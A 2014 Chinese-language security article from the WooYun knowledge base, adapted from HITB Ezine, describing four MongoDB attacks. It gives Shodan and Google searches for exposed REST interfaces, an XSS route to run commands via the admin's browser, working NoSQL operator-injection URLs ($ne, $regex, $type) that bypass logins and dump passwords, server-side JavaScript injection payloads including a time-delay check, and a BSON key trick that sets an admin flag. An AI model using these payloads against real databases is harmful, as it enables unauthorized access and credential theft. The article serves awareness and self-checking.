






# Attacking MongoDB

2014/01/10 17:14 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

本文主要来自于 HITB Ezine Issue 010 中的《Attacking MongoDB》

MongoDB 是一个基于分布式文件存储的数据库。由 C++语言编写。旨在为 WEB 应用提供可扩展的高性能数据存储解决方案。是一个介于关系数据库和非关系数据库之间的产品，是非关系数据库当中功能最丰富，最像关系数据库的。他支持的数据结构非常松散，是类似 json 的 bson 格式，因此可以存储比较复杂的数据类型。Mongo 最大的特点是他支持的查询语言非常强大，其语法有点类似于面向对象的查询语言，几乎可以实现类似关系数据库单表查询的绝大部分功能，而且还支持对数据建立索引。

开发人员使用 NoSQL 数据库的各种应用越来越多。 针对 NoSQL 的攻击方法是知之甚少，并不太常见。与 SQL 注入比较，本文重点介绍通过 MongoDB 的漏洞对 Web 应用程序可能的攻击。

## 0x01 攻击

* * *

### 1)REST 接口

关注到有一个 REST 接口，提供一个 web 界面访问，默认运行在 28017 端口上，管理员可以用浏览器远程控制数据库，这个接口我发现了两个存储型 xss 以及很多的 CSRF。

寻找方式：

http://www.shodanhq.com/search?q=port%3A28017



google 搜索：

```
intitle:mongo intext:"listDatabases" 
```



下了最新版本的 mongodb 默认不是启用 rest 的，需要在配置文件（/etc/mongod.conf）中加入一行

```
rest = true 
```

才可以打开其他链接内容。

下图展示了攻击方法

插入 js 代码，让管理员执行，利用 REST 接口，执行 mongodb 的命令，结果返回到攻击者的服务器上。



例如，我利用 js 代码让管理员访问 http://xxx.com:28017/admin/$cmd/?filter_eval=function()%7B%20return%20db.version()%20%7D&limit=1

返回结果：



### 2)Apache+PHP+MongoDB

一段 php 操作 MongoDB 的代码：

```
$q = array("name" => $_GET['login'], "password" => $_ GET['password']);
$cursor = $collection->findOne($q);

```

这个脚本的是向 MongoDB 数据库请求，如果正常的话，会返回用户的数据：

```
echo 'Name: ' . $cursor['name'];
echo 'Password: ' . $cursor['password']; 

```

访问下面的连接

```
?login=admin&password=pa77w0rd 
```

数据库里的执行情况是：

```
db.items.findOne({"name" :"admin", "password" : "pa77w0rd"}) 
```

如果数据库里存在的该用户名及密码则返回 true，否则返回 fales。

下面的数据库语句，返回的为用户不是 admin 的数据（$ne 代表不等于）：

```
db.items.find({"name" :{$ne : "admin"}}) 
```

那么在现实中的数据库操作例子通常是这样子的：

```
db.items.findOne({"name" :"admin", "password" : {$ne : "1"}}) 
```

返回结果将是：

```
{
    "_id" : ObjectId("4fda5559e5afdc4e22000000"),
    "name" : "admin",
    "password" : "pa77w0rd"
} 
```

php 传入的方式为：

```
$q = array("name" => "admin", "password" => array("\$ne" => "1"));

```

外界请求的参数应该为：

```
?login=admin&password[$ne]=1 
```

当使用正则$regex 的时候，执行下列数据库语句，将会返回 name 中所有已 y 开头的数据

```
db.items.find({name: {$regex: "^y"}}) 
```

如果请求数据的脚本换为：

```
$cursor1 = $collection->find(array("login" => $user, "pass" => $pass));

```

返回结果的数据为：

```
echo 'id: '. $obj2['id'] .'<br>login: '. $obj2['login'] .'<br>pass: '. $obj2['pass'] . '<br>'; 

```

如果想要返回所有数据的话，可以访问下面的 url：

```
?login[$regex]=^&password[$regex]=^ 
```

返回结果将会是：

```
id: 1
login: Admin
pass: parol
id: 4
login: user2
pass: godloveman
id: 5
login: user3
pass: thepolice= 
```

还有一种利用$type 的方式：

```
?login[$not][$type]=1&password[$not][$type]=1 
```

官方这里有详细介绍$type 的各个值代表的意思：

[`cn.docs.mongodb.org/manual/reference/operator/query/type/`](http://cn.docs.mongodb.org/manual/reference/operator/query/type/)

上面语句表示获取 login 与 password 不为双精度类型的，同样会返回所有的数据。

### 3)INJECTION MongoDB

当执行的语句采用字符串拼接的时候，同样也存在注入的问题，如下代码：

```
$q = "function() { var loginn = '$login'; var passs = '$pass'; db.members.insert({id : 2, login : loginn, pass : passs}); }";

```

当$login 与$pass 是直接从外界提交到参数获取：

```
$login = $_GET['login'];
$pass = $_GET['password']; 
```

并且没有任何过滤，直接带入查询：

```
$db->execute($q);
$cursor1 = $collection->find(array("id" => 2));
foreach($cursor1 as $obj2){
echo "Your login:".$obj2['login'];
echo "<br>Your password:".$obj2['pass'];
} 

```

输入测试数据：

```
?login=user&password=password 
```

返回结果将是：

```
Your login: user
Your password: password 
```

输入

```
?login=user&password='; 
```

页面将会返回报错。

输入

```
/?login=user&password=1'; var a = '1 
```

页面返回正常，如何注入出数据呢：

```
?login=user&password=1'; var loginn = db.version(); var b=' 
```

看一下返回结果：



带入实际中$q 是变为：

```
$q = "function() { var loginn = user; var passs = '1'; var loginn = db.version(); var b=''; db.members.insert({id : 2, login : loginn, pass : passs}); }"

```

获取其他数据的方法：

```
 /?login=user&password= '; var loginn = tojson(db.members.find()[0]); var b='2 
```

给 loginn 重新赋值，覆盖原来的 user 内容，tojson 函数帮助获取到完整的数据信息，否则的话将会接收到一个 Array。

最重要的部分是 db.memeber.find()[0]，member 是一个表，find 函数是获取到所有内容，[0]表示获取第一个数组内，可以递增获取所有的内容。

当然也有可能遇到没有返回结果的时候，经典的时间延迟注入也可以使用：

```
?login=user&password='; if (db.version() > "2") { sleep(10000); exit; } var loginn =1; var b='2 
```

### 4)BSON

BSON（Binary Serialized Document Format）是一种类 json 的一种二进制形式的存储格式，简称 Binary JSON，它和 JSON 一样，支持内嵌的文档对象和数组对象，但是 BSON 有 JSON 没有的一些数据类型，如 Date 和 BinData 类型。

默认 test 表中有两条数据：

```
> db.test.find({}) 
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false } 
```

再插入一条：

```
> db.test.insert({ "name" : "noadmin2", "isadmin" : false}) 
```

然后查询看结果：

```
> db.test.find({})
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false }
{ "_id" : ObjectId("52cfa92ce085a58263f183fb"), "name" : "noadmin2", "isadmin" : false } 
```

再插入一条列名为 BSON 对象的数据：

```
db.test.insert({ "name\x16\x00\x08isadmin\x00\x01\x00\x00\x00\x00\x00" : "noadmin2", "isadmin" : false}) 
```

isadmin 之前的 0x08 是指该数据类型是布尔型，后面的 0x01 是把这个值设定为 1。

这时再查询就回发现 isadmin 变为的 true：

```
> db.test.find({})
{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "noadmin", "isadmin" : false }
{ "_id" : ObjectId("5044ebf6a91b02e9a9b065e3"), "name" : null, "isadmin" : true, "isadmin" : true } 
```

不过测试最新版的 mongodb 中，禁止了空字符。



当然了 我也觉得此类攻击有点 YY。。。

## 0x02 总结

* * *

本文列举了四种攻击 mongodb 的方式。

当然这并不是安全否认 mongodb 的安全性，只是构造了集中可能存在攻击的场景。

希望大家看到后能够自查一下，以免受到攻击。

还有一些 wofeiwo 在 2011 年的时候就已经写过：

[Mongodb 安全性初探](http://www.phpweblog.net/GaRY/archive/2011/08/18/Mongodb_secuirty_anaylze.html)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [MongoDB 安全配置](http://drops.wooyun.org/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8/2470)
*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [加盐 hash 保存密码的正确方式](http://drops.wooyun.org/papers/1066)
*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)
*   [Laravel cookie 伪造,解密,和远程命令执行](http://drops.wooyun.org/papers/1515)